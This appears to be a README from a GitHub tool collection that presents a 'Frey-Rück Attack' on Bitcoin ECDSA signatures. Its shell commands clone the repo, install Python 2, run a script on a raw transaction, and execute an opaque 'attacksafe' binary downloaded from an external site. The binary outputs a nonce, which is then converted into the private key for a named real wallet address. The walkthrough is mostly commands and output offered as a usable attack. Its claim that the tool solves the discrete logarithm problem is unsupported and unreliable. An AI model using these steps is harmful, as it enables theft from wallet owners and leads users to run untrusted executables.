 # Frey-Rück Attack

---

With a critical vulnerability in the Bitcoin blockchain transaction, we can solve the rather difficult discrete logarithm problem to extract the secret key "K" (NONCE) from the vulnerable ECDSA signature in order to ultimately restore the Bitcoin Wallet, since knowing the secret key we can get a private key. To do this, there are several algorithms from the list of popular attacks on Bitcoin, one of which is the “Frey-Rück Attack on Bitcoin”.



---

* Tutorial: https://youtu.be/wqHES7r1qyc
* Tutorial: https://cryptodeep.ru/frey-ruck-attack

---

# Commands:





    git clone https://github.com/demining/CryptoDeepTools.git


    cd CryptoDeepTools/14FreyRuckAttack/

    ls
    
    sudo apt install python2-minimal

    wget https://bootstrap.pypa.io/pip/2.7/get-pip.py

    sudo python2 get-pip.py

    pip2 install -r requirements.txt


---


## With a critical vulnerability, we can get the private key to the Bitcoin Wallet:


https://btc1.trezor.io/address/16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG

https://btc1.trezor.io/tx/a575ef45375f85d6d3c010dae01df1479e2e0c5b870b80ee757fc2522057db72


---



    RawTX = 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000


    python2 breakECDSA.py 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000


---


R = 0x061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff

S = 0x649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1

Z = 0xb8e936d143c8733bb1ede19146f8725fee1d10bfc19e14452a51cef0cb0014d8


---

# To implement the attack and get the secret key, we will use the software: “ATTACKSAFE SOFTWARE” [ https://attacksafe.ru/software ]


---

    chmod +x attacksafe


---

    ./attacksafe -tool frey_ruck_attack -open RawTX.txt -save SecretKey.txt


---



## We launched this attack from -tool frey_ruck_attack and the result is saved to the file SecretKey.txt


    cat SecretKey.txt


    Deployments ECDSA:

    SecretKey = 0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3


    RawTX = 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000


---


## We see the inscription "Deployments ECDSA" which means a critical vulnerability in the Bitcoin blockchain transaction

SecretKey value in HEX format, this is our secret key "K" (NONCE):

K=0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3


---


    pip3 install ECPy


    python3 point2gen.py 0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3



    R          =       0x061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff
    point2gen  =   (0x061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff , 0x92718ef50eb3f5eb155a244e371194fb5086e58f1d174e88cda0a60a2ed899f7)


---


# ALL CORRECT!


K=0xf99718ec8df44d695daa9eedd2b3cbe29d8a14a3fc026baeb279afe47c709de3

## Now knowing the secret key, we can get the private key to the Bitcoin Wallet: 16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG


The script: calculate.py will calculate the private key using the formula:
Privkey = ((((S * K) - Z) * modinv(R,N)) % N)


---


    python3 calculate.py


---


## PrivKey = 4faa01f7409813181fb5ae8d352796b791cd9df4ba0650df7008f5d9d6be8766



---


---

* Tutorial: https://youtu.be/wqHES7r1qyc
* Tutorial: https://cryptodeep.ru/frey-ruck-attack

---


|  | Donation Address |
| --- | --- |
| ♥ __BTC__ | 1Lw2gTnMpxRUNBU85Hg4ruTwnpUPKdf3nV |
| ♥ __ETH__ | 0xaBd66CF90898517573f19184b3297d651f7b90bf |
